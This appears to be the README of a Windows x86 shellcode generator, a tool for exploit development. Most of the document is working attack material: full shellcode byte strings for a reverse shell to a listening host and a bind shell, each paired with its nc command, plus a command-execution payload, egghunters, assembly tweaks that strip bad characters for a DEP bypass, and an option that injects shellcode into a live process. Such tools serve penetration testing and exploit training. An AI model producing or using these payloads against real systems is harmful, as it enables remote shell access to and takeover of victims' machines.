# Windows x86 Shellcode Generator

## Usage

```
$ python3 win_x86_shellcoder.py -h
usage: win_x86_shellcoder.py [-h] [-b BADCHARS] [-r] [-w] [-e {process,thread,none}] {reverse,bind,exec,egghunter,loadfile} ...

Windows x86 Shellcode Generator

positional arguments:
  {reverse,bind,exec,egghunter,loadfile}
                        Shellcode mode
    reverse             Generate reverse shell shellcode
    bind                Generate bind shell shellcode
    exec                Generate execute command shellcode
    egghunter           Generate egghunter shellcode
    loadfile            Load shellcode from file

options:
  -h, --help            show this help message and exit
  -b BADCHARS, --badchars BADCHARS
                        Characters to avoid
  -r, --run_shellcode   Inject shellcode into a current Python process
  -w, --use_windbg      Insert int3 for debugger into shellcode
  -e {process,thread,none}, --exit_func {process,thread,none}
                        Function called to terminate shellcode
```


## Examples

### Reverse Shell

```
nc -nlvp 443
```

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' reverse -i 192.168.1.120 -p 443
# shellcode size: 0x15f (351)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x0e\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8P\xb8\xcd\xcd\xd1\xbb\xf7\xd8PhWS2_Th\xf9\x1d\x7f\xc3\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\x1e\x9a\x0c0\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\xff\x9aH\x1a\xffU\x04\x89\xc61\xc0PPh\xc0\xa8\x01xf\xb8\x01\xbb\xc1\xe0\x10f\x83\xc0\x02PT_1\xc0PPPP\x04\x10PWVh2\xa6\xc3\x1a\xffU\x04VVV1\xc0H\x8dH\x0e@P\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8P\xb8\x9d\x92\x9b\xd1\xf7\xd8P\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh\x98\xb1\x89\xef\xffU\x041\xc9Qj\xffh\xc2Y\xfc\xe6\xffU\x04'
```


### Bind Shell

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' bind -p 54321
# shellcode size: 0x170 (368)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca)\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\xb4\xb3\xff\xfe\xf7\xd8P\xb8\xcd\xcd\xd1\xbb\xf7\xd8PhWS2_Th\xca\xcc~E\xffU\x04\x89\xe01\xc9f\xb9\x90\x05)\xc8P1\xc0f\xb8\x02\x02Ph\xb8\xe0i\xa1\xffU\x041\xc0PPP\xb0\x06P,\x05P@Ph\xa9\x1f\xbe\xc0\xffU\x04\x89\xc61\xc0PPPf\xb8\xd41\xc1\xe0\x10\x04\x02PT_1\xc0\x04\x10PWVh\xa5L\x1a\x97\xffU\x041\xc0PVh\xd4f\xfd\xc5\xffU\x041\xc0PPVh\xda\xa4!k\xffU\x04\x89\xc6VVV1\xc0H\x8dH\x0e@P\xe2\xfd\xb0DPT_f\xc7G,\x01\x01\xb8\x9b\x87\x9a\xff\xf7\xd8P\xb8\x9d\x92\x9b\xd1\xf7\xd8P\x89\xe3\x89\xe01\xc9f\xb9\x90\x03)\xc8PW1\xc0PPP@PHPPSPh<\xc6ry\xffU\x041\xc9Qj\xffh\xc6\xbaHp\xffU\x04'
```

```
nc -nv 192.168.1.121 54321
```


### Execute Command

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0D\x20\x23\x25\x26\x2E\x2F\x3D\x3F\x5C' exec -c 'calc'
# shellcode size: 0xba (186)
shellcode = b'\x89\xe5\x81\xc4\xf0\xf9\xff\xff\xeb\x06^\x89u\x04\xebR\xe8\xf5\xff\xff\xff`1\xc9d\x8bq0\x8bv\x0c\x8bv\x1cVF\x8b^\x07N\x0f\xb6F\x1e\x89E\xf8\x8bC<\x8b|\x03x\x01\xdf\x8bO\x18O\x8bG!G\x01\xd8\x89E\xfc\xe3\x1dI\x8bE\xfc\x8b4\x88\x01\xde1\xc0\x8bU\xf8\xfc\xac\x84\xc0t\x0e\xc1\xca\x03\x01\xc2\xeb\xf4\xeb+^\x8b6\xeb\xb9;T$(u\xd6\x8bW$\x01\xdaf\x8b\x0cJ\x8bW\x1c\x01\xda\x8b\x04\x8a\x01\xd8L\x89D$!D^aYZQ\xff\xe0\xb8\x01\x02\x02\x025\x01\x03\x03\x03Phcalc\x89\xe11\xd2RQhq\x90H\xaa\xffU\x041\xc9Qj\xffh\x97\xaae}\xffU\x04'
```


### Egghunter

#### Use ntaccess

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter ntaccess -t w00tw00t
# shellcode size: 0x24 (36)
shellcode = b'f\x81\xca\xff\x0fBR\xb8:\xfe\xff\xff\xf7\xd8\xcd.<\x05Zt\xeb\xb8w00t\x89\xd7\xafu\xe6\xafu\xe3\xff\xe7'
```


#### Use SEH

```
$ python3 win_x86_shellcoder.py -b '\x00' egghunter seh -t w00tw00t
# shellcode size: 0x45 (69)
shellcode = b'\xeb*Y\xb8w00tQj\xff1\xdbd\x89#\x83\xe9\x04\x83\xc3\x04d\x89\x0bj\x02Y\x89\xdf\xf3\xafu\x07\xff\xe7f\x81\xcb\xff\x0fC\xeb\xed\xe8\xd1\xff\xff\xffj\x0cY\x8b\x04\x0c\xb1\xb8\x83\x04\x08\x06X\x83\xc4\x10P1\xc0\xc3'
```


## Bypass DEP with WriteProcessMemory

This tool was created to facilitate developing shellcodes that do not contain bad characters and do not require decoding to bypass DEP with [WriteProcessMemory](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-writeprocessmemory).

Suppose [VirtualAlloc](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualalloc) or [VirtualProtect](https://docs.microsoft.com/windows/win32/api/memoryapi/nf-memoryapi-virtualprotect) cannot be used and WriteProcessMemory must be used. In that case, encoders that perform dynamic decoding such as shikata_ga_nai will likely not work because the address to which WriteProcessMemory writes the shellcode will remain not writable, making it impossible to write dynamically decoded shellcode.

One solution to this problem is to develop a shellcode that does not contain bad characters and does not require decoding.


## Find Bad Characters

`-b` is an option to specify bad characters. The specified bad characters are automatically removed from function name hashes and some instructions in the shellcode. If any remaining bad characters cannot be removed, the output will indicate which instructions contain bad characters as `[x]`.

```
$ python3 win_x86_shellcoder.py -b '\x00\x08\x09\x0A\x0B\x0C\x0D\x20\x23\x25\x26\x2B\x2E\x2F\x3D\x3F\x5C' reverse -i 192.168.1.120 -p 443
...
# bad chars were found in the shellcode
...
[ ] ebf4         : jmp 0x58
[x] eb2b         : jmp 0x91
[ ] 5e           : pop esi
[ ] 8b36         : mov esi, dword ptr [esi]
[ ] ebb9         : jmp 0x24
[ ] 3b542428     : cmp edx, dword ptr [esp + 0x28]
[ ] 75d6         : jne 0x47
[ ] 8b5724       : mov edx, dword ptr [edi + 0x24]
[ ] 01da         : add edx, ebx
[x] 668b0c4a     : mov cx, word ptr [edx + ecx*2]
[ ] 8b571c       : mov edx, dword ptr [edi + 0x1c]
...
```


## Replace Instructions

We can manually remove the remaining bad characters by replacing the detected instruction with another instruction. For example, 0x0C and 0x2B can be removed by replacing the instructions in [find_and_call.py](coder/find_and_call.py) as follows.

```asm
...
    jmp   compute_hash_again        // Next iteration

find_and_call_hop:
    jmp   find_and_call_end
    nop                             // * REMOVE 0x2B *
    nop                             // * REMOVE 0x2B *

get_next_module:
    pop   esi                       // Restore InInitOrder
    mov   esi, [esi]                // ESI = InInitOrder[X].flink (next)
    jmp   next_module

find_function_compare:
    cmp   edx, [esp+0x28]           // Compare the computed hash with the requested hash
    jnz   find_function_loop        // If it doesn't match go back to find_function_loop
    mov   edx, [edi+0x24]           // AddressOfNameOrdinals RVA
    add   edx, ebx                  // AddressOfNameOrdinals VMA
    //; mov   cx,  [edx+2*ecx]          // Extrapolate the function's ordinal
    mov   ax,  [edx+2*ecx]          // * REMOVE 0x0C *
    mov   cx, ax                    // * REMOVE 0x0C *
    mov   edx, [edi+0x1C]           // AddressOfFunctions RVA
...
```


## Debug Shellcode (for Windows Only)

### Inject shellcode into a Python process

`-r`, `--run_shellcode`

```
python3 win_x86_shellcoder.py -r reverse -i 192.168.1.120 -p 443
```


### Insert int3 for debugger into shellcode

`-w`, `--use_windbg`

```
python3 win_x86_shellcoder.py -r -w reverse -i 192.168.1.120 -p 443
```

